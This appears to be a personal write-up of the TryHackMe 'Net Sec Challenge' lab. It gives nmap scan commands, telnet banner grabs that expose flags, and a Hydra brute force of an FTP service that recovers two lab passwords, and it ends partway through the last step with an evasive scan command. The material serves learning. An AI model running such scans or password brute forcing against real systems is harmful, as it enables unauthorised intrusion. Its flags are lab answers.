

# Write-up — TryHackMe : Net Sec Challenge
**Date :** 2025-11-04
**Source :** Tryhackme
**Difficulté :** Medium

---

## Contexte
You can answer the following questions using Nmap, Telnet, and Hydra.

1- What is the highest port number being open less than 10,000?

2- There is an open port outside the common 1000 ports; it is above 10,000. What is it?

3- How many TCP ports are open?

4- What is the flag hidden in the HTTP server header?

5- What is the flag hidden in the SSH server header?

6- We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

7- We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?

8- Browsing to http://MACHINE_IP:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

IP_MACHINE : 10.10.62.194

## Notes à chaud (commandes & outputs)
1)
sudo nmap -sT 10.10.62.194                 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 16:18 CET
Nmap scan report for 10.10.62.194
Host is up (0.056s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds

sudo nmap -sS  10.10.62.194
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 16:24 CET
Nmap scan report for 10.10.62.194
Host is up (0.024s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy

2)
└─$ sudo nmap -sS  10.10.62.194 -p10000-65000 -v -n -T 5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 16:33 CET
Initiating Ping Scan at 16:33
Scanning 10.10.62.194 [4 ports]
Completed Ping Scan at 16:33, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:33
Scanning 10.10.62.194 [55001 ports]
Warning: 10.10.62.194 giving up on port because retransmission cap hit (2).
Discovered open port 10021/tcp on 10.10.62.194
Completed SYN Stealth Scan at 16:33, 21.35s elapsed (55001 total ports)
Nmap scan report for 10.10.62.194
Host is up (0.031s latency).
Not shown: 54557 closed tcp ports (reset), 443 filtered tcp ports (no-response)
PORT      STATE SERVICE
10021/tcp open  unknown

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 21.52 seconds
           Raw packets sent: 58823 (2.588MB) | Rcvd: 54813 (2.193MB)

3)
6: 22,80,139,8080,10021

4)
─$ telnet 10.10.62.194 80 
Trying 10.10.62.194...
Connected to 10.10.62.194.
Escape character is '^]'.
GET / HTTP/1.1
host: telnet

HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "229449419"
Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
Content-Length: 226
Date: Tue, 04 Nov 2025 15:35:24 GMT
Server: lighttpd THM{web_server_25352}

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Hello, world!</title>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
</head>
<body>
  <h1>Hello, world!</h1>
</body>
</html>
Connection closed by foreign host.

5)
└─$ telnet 10.10.62.194 22
Trying 10.10.62.194...
Connected to 10.10.62.194.
Escape character is '^]'.
SSH-2.0-OpenSSH_8.2p1 THM{946219583339} 

6)
──(kali㉿kali)-[~/Documents/tmp]
└─$ sudo nmap -sV 10.10.62.194 -p 10021     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 16:45 CET
Nmap scan report for 10.10.62.194
Host is up (0.024s latency).

PORT      STATE SERVICE VERSION
10021/tcp open  ftp     vsftpd 3.0.5
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds

7)
┌──(kali㉿kali)-[~/Documents/tmp]
└─$ touch usersftp.txt         

┌──(kali㉿kali)-[~/Documents/tmp]
└─$ nano usersftp.txt 

┌──(kali㉿kali)-[~/Documents/tmp]
└─$ sudo hydra -L usersftp.txt -P /usr/share/wordlists/rockyou.txt  10.10.62.194 ftp -s 10021
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-04 16:48:57
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://10.10.62.194:10021/
[10021][ftp] host: 10.10.62.194   login: eddie   password: jordan
[10021][ftp] host: 10.10.62.194   login: quinn   password: andrea
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-04 16:49:30

8)

$ sudo nmap -sS  10.10.62.194 -v -n -T 1 -f  

